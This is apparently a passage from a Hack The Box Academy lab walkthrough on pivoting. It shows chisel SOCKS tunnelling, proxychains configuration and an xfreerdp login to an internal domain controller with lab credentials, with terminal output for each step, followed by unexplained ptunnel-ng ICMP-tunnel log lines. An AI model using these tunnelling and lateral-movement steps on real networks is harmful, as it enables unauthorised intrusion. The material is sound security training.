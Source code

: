 Then, from `Pwnbox`/`PMVPN`, students need to run `chisel` as a client to connect to the `chisel` server running on the Ubuntu pivot host:

Code: shell

```shell
chmod +x chisel_1.7.6_linux_amd64
./chisel_1.7.6_linux_amd64 client -v STMIP:9001 socks
```

```
┌─[us-academy-1]─[10.10.14.225]─[htb-ac-594497@htb-ydgzaf0yn1]─[~]
└──╼ [★]$ chmod +x ./chisel_1.7.6_linux_amd64 

┌─[us-academy-1]─[10.10.14.17]─[htb-ac413848@pwnbox-base]─[~/chisel]
└──╼ [★]$ ./chisel_1.7.6_linux_amd64 client -v 10.129.202.64:9001 socks

2022/08/29 16:43:10 client: Connecting to ws://10.129.202.64:9001
2022/08/29 16:43:10 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/08/29 16:43:10 client: tun: Bound proxies
2022/08/29 16:43:11 client: Handshaking...
2022/08/29 16:43:11 client: Sending config
2022/08/29 16:43:11 client: Connected (Latency 87.992506ms)
2022/08/29 16:43:11 client: tun: SSH connected
```

Students must ensure that the following `proxychains` SOCKS5 entry is found (and that the SOCKS4 default entry is commented out) within the `proxychains.conf` file on `Pwnbox`/`PMVPN`:

Code: shell

```shell
socks5 127.0.0.1 1080
```

```
┌─[us-academy-1]─[10.10.14.17]─[htb-ac413848@pwnbox-base]─[~/chisel]
└──╼ [★]$ tail -n2 /etc/proxychains.conf

#socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

Then, from `Pwnbox`/`PMVPN`, students need to use `proxychains` and `xfreerdp` to pivot to the DC on the internal network (`172.16.5.19`) with the credentials `victor:pass@123`:

Code: shell

```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:'pass@123'
```

```
┌─[us-academy-1]─[10.10.14.17]─[htb-ac413848@pwnbox-base]─[~/chisel]
└──╼ [★]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:'pass@123'

ProxyChains-3.1 (http://proxychains.sf.net)
[17:15:23:809] [3025:3026] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state

<SNIP>

Certificate details for 172.16.5.19:3389 (RDP-Server):
	Common Name: DC01.inlanefreight.local
	Subject:     CN = DC01.inlanefreight.local
	Issuer:      CN = DC01.inlanefreight.local
	Thumbprint:  a4:31:db:42:16:60:1c:09:a0:85:d7:11:e0:10:b9:03:14:58:69:3f:0a:86:c2:ba:65:85:ea:0b:87:09:94:06
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
```

[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
